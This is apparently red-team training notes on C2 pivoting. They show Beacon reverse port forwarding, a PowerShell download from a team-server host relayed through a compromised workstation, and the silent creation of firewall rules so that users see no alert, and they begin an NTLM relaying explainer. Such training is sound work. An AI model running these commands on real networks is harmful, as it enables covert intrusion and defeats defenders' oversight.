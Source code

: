 # Reverse Port Forwards 

Reverse Port Forwarding allows a machine to redirect inbound traffic on a specific port to another IP and port.  A useful implementation of this allows machines to bypass firewall and other network segmentation restrictions, to talk to nodes they wouldn't normally be able to.  For example, we can use the console of Domain Controller 2 to demonstrate that it does not have any outbound access to our team server.

    PS C:\Users\Administrator> hostname
    dc-2
    
    PS C:\Users\Administrator> iwr -Uri http://nickelviper.com/a
    iwr : Unable to connect to the remote server
    
We know of course that Workstation 2 does - so we can create a reverse port forward to relay traffic between Domain Controller 2 and our team server.

    beacon> rportfwd 8080 127.0.0.1 80
    [+] started reverse port forward on 8080 to 127.0.0.1:80
    
This will bind port 8080 on Workstation 2.

    beacon> run netstat -anp tcp
    TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING


Any traffic hitting this port will be tunnelled back to the team server over the C2 channel.  The team server will then relay the traffic to the forward host/port, then send the response back over Beacon.  Now, we can download the file via this port forward.

    PS C:\Users\Administrator> iwr -Uri http://wkstn-2:8080/a
    
    StatusCode        : 200

When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed.  Allowing access requires local admin privileges and clicking cancel will create an explicit block rule.
    
You must therefore create an allow rule before running a reverse port forward using either netsh or New-NetFirewallRule, as adding and removing rules does not create a visible alert.

    beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

Don't be lazy by disabling the firewall entirely. You can delete a firewall rule later by its DisplayName.

    beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"

# NTLM Relaying 

NTLM authentication uses a 3-way handshake between a client and server.  The high-level steps are as follows:

1. The client makes an authentication request to a server for a resource it wants to access.
2. The server sends a challenge to the client - the client needs to encrypt the challenge using the hash of their password.
3. The client sends the encrypted response to the server, which contacts a domain controller to verify the encrypted challenge is correct.

